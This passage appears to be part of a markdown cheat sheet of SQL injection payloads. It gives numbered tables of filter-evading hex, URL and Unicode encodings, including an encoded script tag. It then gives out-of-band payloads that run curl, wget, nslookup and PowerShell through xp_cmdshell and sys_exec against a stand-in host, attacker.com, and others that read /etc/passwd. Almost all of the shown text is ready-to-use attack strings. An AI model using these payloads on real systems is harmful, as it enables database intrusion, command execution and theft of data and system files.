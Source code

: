 | 9. 0x3C7363726970743E; -- |
| 10. 0x3F3F; -- |

---

### 2. **Unicode/URL Encoded Bypass**
*Use Unicode or URL encoding for characters to bypass filters.*

| Payloads |
|---|
| 1. %27%20OR%201=1 -- (single quote URL encoded) |
| 2. %uff07%20OR%20%uff07%31=1 -- (full-width quote) |
| 3. %25%27; SELECT version(); -- (percent-encoded quote) |
| 4. %5C%27%20OR%20%5C%27%31=1 -- (escaped backslash) |
| 5. %3C%2Fscript%3E -- (closing script tag) |
| 6. %u0027%20OR%20%u0031=1 -- (Unicode) |
| 7. %e6%97%a5 -- (Japanese character) |
| 8. %0a -- (newline) |
| 9. %0d -- (carriage return) |
| 10. %00 -- (null byte) |

---

### 3. **File Read via Out-of-Band (OOB) using DNS/HTTP**
*Leverage out-of-band channels to exfiltrate data.*

| Payloads |
|---|
| 1. '; EXEC xp_cmdshell('nslookup attacker.com') -- |
| 2. '; SELECT load_file('/etc/passwd') -- |
| 3. '; EXEC xp_cmdshell('curl attacker.com') -- |
| 4. '; SELECT sys_exec('ping attacker.com') -- |
| 5. '; SELECT ('http://attacker.com/?q=' || version()) -- |
| 6. '; EXEC xp_cmdshell('powershell Invoke-WebRequest attacker.com') -- |
| 7. '; SELECT pg_read_file('/etc/passwd') -- |
| 8. '; EXEC xp_cmdshell('curl attacker.com') -- |
| 9. '; SELECT sys_eval('wget attacker.com') -- |
| 10. '; SELECT UTL_HTTP.request('http://attacker.com') -- |

---